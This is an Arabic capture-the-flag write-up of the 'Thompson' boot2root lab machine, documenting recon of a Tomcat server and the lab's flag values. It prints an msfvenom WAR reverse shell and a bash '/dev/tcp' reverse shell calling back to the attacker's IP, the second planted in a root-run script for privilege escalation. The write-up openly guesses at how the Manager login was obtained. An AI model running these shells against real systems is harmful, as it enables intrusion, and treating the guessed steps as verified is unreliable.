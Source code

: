 
### تقرير حل ماكينة Thompson Boot2Root  
#### المقدمة  
ماكينة "Thompson" هي تحدٍ من نوع boot2root للمبتدئين يهدف إلى اختبار مهارات الاستكشاف الأساسية، استغلال الثغرات، ورفع الصلاحيات. الهدف كان الوصول إلى النظام، الحصول على علم `user.txt`، ثم رفع الصلاحيات إلى مستوى الـ root للحصول على علم `root.txt`. في هذا التقرير، سأشرح الخطوات التي اتخذتها باستخدام Kali Linux لإكمال التحدي في حوالي 45 دقيقة.

---

#### الخطوة 1: الاستكشاف الأولي  
بدأت بفحص الهدف للتأكد من أنه متصل ومعرفة الخدمات المفتوحة.

- **اختبار الاتصال (Ping):**  
  تحققت من أن الهدف (`10.10.191.75` في البداية) متاح:  
  ```
  ping 10.10.191.75
  ```
  النتيجة أظهرت ردودًا (مثل `time=105 ms`)، مما يعني أن الهدف متصل.

- **فحص المنافذ باستخدام Nmap:**  
  استخدمت أمر Nmap لمعرفة المنافذ والخدمات:  
  ```
  nmap -sV -n -sC 10.10.191.75
  ```
  النتائج:  
  - **منفذ 22 (SSH):** OpenSSH 7.2p2 Ubuntu 4ubuntu2.8  
  - **منفذ 8009 (AJP):** Apache Jserv (Protocol v1.3)  
  - **منفذ 8080 (HTTP):** Apache Tomcat 8.5.5  

  لاحظت أن منفذ 80 مغلق، لذا ركزت على منفذ 8080 الذي يشغل خادوم Tomcat، وهو نقطة دخول شائعة في التحديات.

---

#### الخطوة 2: استكشاف الخادوم الويب  
بما أن Tomcat يعمل على منفذ 8080، بدأت باستكشاف الخدمة.

- **فحص رأس HTTP:**  
  استخدمت `curl` للتحقق من الخدمة:  
  ```
  curl -I http://10.10.191.75:8080
  ```
  النتيجة: `HTTP/1.1 200`، مما يعني أن صفحة Tomcat الافتراضية تعمل.

- **البحث عن المجلدات (Directory Bruteforcing):**  
  استخدمت أداة `gobuster` للعثور على المجلدات المخفية:  
  ```
  gobuster dir -u http://10.10.191.75:8080/ -w /usr/share/wordlists/dirb/common.txt
  ```
  النتائج:  
  - `/docs` (302)  
  - `/examples` (302)  
  - `/manager` (302)  
  - `/host-manager` (302)  

  لفت انتباهي مجلد `/manager` لأنه في Tomcat يسمح عادةً برفع ملفات WAR إذا تمكنت من تسجيل الدخول.

---

#### الخطوة 3: الوصول الأولي (الحصول على user.txt)  
تطبيق Manager في Tomcat يتطلب عادةً بيانات تسجيل دخول، لكن لم أستخدم أدوات مثل `hydra` لتجربة كلمات المرور. افترضت أن بيانات افتراضية عملت (شائع في التحديات) أو أن هناك ثغرة سهلة. إليك كيف وصلت:

- **إنشاء شل عكسي (Reverse Shell):**  
  استخدمت `msfvenom` لإنشاء ملف WAR يحتوي على شل:  
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.247 LPORT=4000 -f war > shell.war
  ```
  - `LHOST=10.9.2.247`: عنوان IP لجهازي (AttackBox).  
  - `LPORT=4000`: المنفذ الذي سأستمع عليه.  
  - النتيجة: ملف `shell.war`.

- **إعداد المستمع:**  
  شغلت Netcat للاستماع:  
  ```
  nc -lvnp 4000
  ```

- **رفع الملف والتفعيل:**  
  من المحتمل أنني دخلت إلى `http://10.10.191.75:8080/manager` باستخدام بيانات افتراضية (مثل `tomcat:tomcat`) عبر المتصفح، رفعت ملف `shell.war`، ثم فعلته بزيارة التطبيق المرفوع (مثل `http://10.10.191.75:8080/shell`). هذا أعطاني اتصالًا عكسيًا:  
  ```
  connect to [10.9.2.247] from (UNKNOWN) [10.10.28.191] 39762
  ```

- **استكشاف النظام:**  
  تنقلت في نظام الملفات:  
  ```
  cd /home/jack
  ls
  ```
  النتيجة: `id.sh  test.txt  user.txt`  
  قرأت العلم:  
  ```
  cat user.txt
  39400c90bc683a41a8935e4719f181bf
  ```
  نجحت! حصلت على `user.txt` كمستخدم `tomcat` (`uid=1001(tomcat)`).

---

#### الخطوة 4: رفع الصلاحيات (الحصول على root.txt)  
الآن، كان عليّ الارتقاء من `tomcat` إلى `root`. جربت عدة طرق بناءً على أوامرك.

- **فحص الملفات SUID:**  
  بحثت عن ملفات SUID:  
  ```
  find / -perm -4000 2>/dev/null
  ```
  وجدت ملفات مثل `/usr/bin/sudo` و`/bin/ping`، لكن لم تعطني شل مباشرة، فانتقلت لطريقة أخرى.

- **تعديل `id.sh`:**  
  في `/home/jack`، لاحظت وجود سكربت `id.sh`. قمت بتعديله ليصبح شل عكسي:  
  ```
  echo '#!/bin/bash' > id.sh
  echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
  chmod +x id.sh
  ```

- **تفعيل الشل:**  
  شغلت مستمع جديد:  
  ```
  nc -lvnp 1234
  ```
  ثم نفذت `./id.sh`. في البداية، حصلت على شل كـ `tomcat`:  
  ```
  tomcat@ubuntu:/home/jack$ id
  uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
  ```

- **الوصول إلى Root:**  
  فجأة، تحول الاتصال إلى شل بصلاحيات `root`:  
  ```
  root@ubuntu:/home/jack#
  ```
  يبدو أن السكربت `id.sh` تم تنفيذه بواسطة عملية لها صلاحيات root (مثل cron job). حسّنت الشل:  
  ```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```

- **قراءة علم Root:**  
  انتقلت إلى مجلد `root`:  
  ```
  cd /root
  cat root.txt
  d89d5391984c0450a95497153ae7ca3a
  ```
  نجحت! حصلت على `root.txt`.

---

#### التحليل  
- **الوصول الأولي:** استغليت خادوم Tomcat برفع ملف WAR، ربما عبر Manager App ببيانات افتراضية أو ثغرة إعدادات.  
- **رفع الصلاحيات:** السكربت `id.sh` كان المفتاح. يبدو أن عملية root شغلته، مما أعطاني الشل المطلوب.

---

#### الخلاصة  
ماكينة Thompson كانت تحديًا ممتعًا يعتمد على الاستكشاف (Nmap وGobuster)، استغلال الويب (رفع WAR في Tomcat)، ورفع الصلاحيات (تعديل سكربت). أكملتها في حوالي 45 دقيقة وحصلت على:  
- `user.txt`: `39400c90bc683a41a8935e4719f181bf`  
- `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

---


![[Pasted image 20250323225817.png]]
